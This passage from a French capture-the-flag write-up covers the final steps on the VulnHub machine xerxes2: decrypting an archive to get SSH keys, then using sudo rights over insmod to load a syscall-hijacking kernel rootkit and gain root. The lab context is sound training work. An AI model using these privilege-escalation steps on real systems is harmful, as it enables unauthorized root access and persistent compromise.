 La commande inverse est donc :  

```bash
openssl enc -d -salt -aes-256-cbc -pass pass:c2hvZGFu  -in korenchkin.tar.enc -out korenchkin.tar
```

Cette fois on a une paire de clés SSH qui nous permettent de devenir *korenchkin* :  

```plain
$ tar tvf korenchkin.tar 
-rw------- korenchkin/korenchkin 1675 2014-07-16 20:17 .ssh/id_rsa
-rw-r--r-- korenchkin/korenchkin  400 2014-07-16 20:17 .ssh/id_rsa.pub
```

Quatrième énigme
----------------

L'utilisateur a des permissions *sudo* pour charger et décharger des modules kernel :  

```plain
korenchkin@xerxes2:~$ sudo -l
Matching Defaults entries for korenchkin on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User korenchkin may run the following commands on this host:
    (root) NOPASSWD: /sbin/insmod, (root) /sbin/rmmod
```

J'ai choisi d'utiliser une rootkit LKM [décrite sur le blog de memset](http://memset.wordpress.com/2010/12/28/syscall-hijacking-simple-rootkit-kernel-2-6-x/) :  

Il faut seulement changer dans le code l'adresse de la *sys\_call\_table* par celle effective du système :  

```plain
korenchkin@xerxes2:~$ grep sys_call_table /boot/System.map-3.2.0-4-686-pae 
c12cce90 R sys_call_table
```

Après on insère la rootkit et on utilise le programme d'exemple :  

```plain
korenchkin@xerxes2:~$ sudo insmod rootkit.ko 
korenchkin@xerxes2:~$ ./test
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(korenchkin)
# cat flag*
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

 congratulations on beating xerxes2!

 I hope you enjoyed it as much as I did making xerxes2. 
 xerxes1 has been described as 'weird' and 'left-field'
 and I hope that this one fits that description too :)

 Many thanks to @TheColonial & @rasta_mouse for testing!

 Ping me on #vulnhub for thoughts and comments!

       @barrebas, July 2014
```
